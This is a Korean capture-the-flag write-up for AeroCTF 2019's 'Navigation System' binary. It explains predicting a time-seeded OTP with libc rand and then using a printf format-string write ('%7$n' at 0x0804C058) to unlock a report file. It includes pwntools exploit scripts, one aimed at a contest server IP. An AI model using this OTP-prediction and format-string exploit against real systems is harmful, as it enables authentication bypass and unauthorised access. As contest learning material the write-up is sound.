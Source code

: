 ```yaml
---
title: Aeroctf Writeup
date: 2019-03-11
---
```


# Navigation System

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+0h] [ebp-48h]
  unsigned int v5; // [esp+4h] [ebp-44h]
  char s1[4]; // [esp+8h] [ebp-40h]
  char v7[4]; // [esp+18h] [ebp-30h]
  unsigned int v8; // [esp+3Ch] [ebp-Ch]
  int *v9; // [esp+40h] [ebp-8h]

  v9 = &argc;
  v8 = __readgsdword(0x14u);
  wlc_msg();
  __isoc99_scanf("%16s", &s1[2]);
  printf("Password: ");
  fflush(stdout);
  __isoc99_scanf("%32s", &v7[3]);
  if ( strcmp(&s1[2], valid_login) )
  {
    puts("Username is invalid!");
    exit(-1);
  }
  if ( strcmp(&v7[3], valid_password) )
  {
    puts("Passowrd is invalid!");
    exit(-2);
  }
  v5 = genOTPcode(&s1[2], &v7[3]);
  printf("Enter the OTP code: ");
  fflush(stdout);
  __isoc99_scanf("%d", &v4);
  if ( v5 == v4 )
    UserPanel((int)&s1[2]);
  puts("OTP is incorrect!");
  fflush(stdout);
  return -1;
}
```

id, pw는 하드코딩되어 있어 바로 가능한데 OTP 코드가 문제다.

```c
unsigned int __cdecl genOTPcode(char *a1, char *a2)
{
  time_t v2; // eax
  unsigned int v3; // eax

  v2 = time(0);
  srand(*a2 + *a1 + v2);
  v3 = rand();
  return v3 + (v3 >= 0xFFFFFFFF);
}
```

time 기반으로 랜드 생성이라 시드를 맞출 수 있다. *a2 , *a1 = 't' 이다.(id,pw 의 첫 바이트를 가져온다)

대회 때는 못 풀었고 하다가 다른 ctf로 넘어갔는데 다 지나고나서 시드를 다시 맞춰봤다  OTP만  넘어가게되면

```c
void __cdecl __noreturn UserPanel(int a1)
{
  int v1; // [esp+Ch] [ebp-Ch]

  puts("-------------------- User menu --------------------");
  printf("Hello, %s\n", a1);
  fflush(stdout);
  while ( 1 )
  {
    while ( 1 )
    {
      puts("[1] Read latest report");
      puts("[2] Set a station");
      puts("[3] TODO");
      puts("[4] Exit");
      printf("> ");
      fflush(stdout);
      v1 = 4;
      __isoc99_scanf("%d", &v1);
      if ( v1 != 2 )
        break;
      setStation();
    }
    if ( v1 > 2 )
      break;
    if ( v1 != 1 )
      goto LABEL_13;
    readLastReport();
  }
  if ( v1 == 3 )
    UserExit();
  if ( v1 == 4 )
    UserExit();
LABEL_13:
  UserExit();
}
```

요 메뉴로 넘어가고

```c
unsigned int setStation()
{
  char buf[32]; // [esp+Ch] [ebp-2Ch]
  unsigned int v2; // [esp+2Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("Set station > ");
  fflush(stdout);
  buf[read(0, buf, 0x20u)] = 0;
  printf("Station: ");
  printf(buf);
  putchar(10);
  return __readgsdword(0x14u) ^ v2;
}
```

요기의 포맷스트링을 이용해서

```c
int readLastReport()
{
  if ( flag )
    system("/bin/cat report.txt");
  else
    printf("[-] Access denied!");
  return putchar(10);
}
```

report.txt를 읽을 수 있다. 아마 저게 flag일 건데 사실 서버에는 rand가 계속 안맞아서 못해보고.. 로컬에서만 출력시켰다. 저게 flag가 아니어도 포맷스트링은 무한으로 가능하기 때문에 다른 식으로라도 풀 수 있다.

```python
from pwn import *
from ctypes import *
import time
from datetime import datetime

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

i = 0
while True:
	try:
		#tm = process('./time')
		#t = process('./binary')
		t = remote('185.66.87.233', 5002)
		#b = int(tm.recvline().replace('\n',''),10)
		#a = int(tm.recv().replace('\n',''),10)
		#tm.close()
		#log.success("rand ==> " + hex(a))
		#log.success("time ==> " + hex(b))

		libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
		#timestamp = time.mktime(datetime.today().timetuple())
		#b = int(float(timestamp))
		b = libc.time(0) + i
		log.success("time ==> " + hex(b))
		libc.srand(0x74*2 + b)
		a = libc.rand()
		log.success("rand ==> " + hex(a))

		r("Login:")
		s("test_account")
		r("Password:")
		s("test_password")
		r("Enter the OTP code:")
		s(a)

		print i 
		i = i + 1

		print t.recv()
		print t.recv()
		print t.recv()
		
		r(">")
		s("2")
		r(">")
		s(p32(0x0804C058) + "%7$n")
		r(">")
		s("1")
		
		t.interactive()
	except Exception as e:
		pass
	finally:
		t.close()
```

시드 맞추려고 계속 돌리는.. 것인데 c파일에서도 하고 cdll으로도 했는데 내가 시드를 못 맞춘 이유는 ㅋㅋㅋㅋㅋ scanf가 %d로 입력인데 그거 모르고 팩해서 보내버려서 안맞는 거였음… 그거 땜에 이상한 짓만….

```python
libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
b = libc.time(0)
libc.srand(0x74*2 + b)
a = libc.rand()
```

이게 time based srand 맞추기가 참 좋은듯 하다. 여러가지로 해봤으니 언젠간 쓸일이 있겠지!

```python
from pwn import *
from ctypes import *
import time
from datetime import datetime

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

t = process('./binary')

libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
#timestamp = time.mktime(datetime.today().timetuple())
#b = int(float(timestamp))
b = libc.time(0) + i
log.success("time ==> " + hex(b))
libc.srand(0x74*2 + b)
a = libc.rand()
log.success("rand ==> " + hex(a))

r("Login:")
s("test_account")
r("Password:")
s("test_password")
r("Enter the OTP code:")
s(a)

r(">")
s("2")
r(">")
s(p32(0x0804C058) + "%7$n")
r(">")
s("1")

t.interactive()
->
/bin/cat: report.txt: 그런 파일이나 디렉터리가 없습니다
```

음.. 나중엔 서버랑도 맞게 해야 할텐데 ㅠ 서버 시간 UTC로 바꿔도 안되길래 그냥 포기했다.. 서버도 너무 느리고해서 나중에 이런 문제 나오면 다시 제대로 맞춰봐야지!

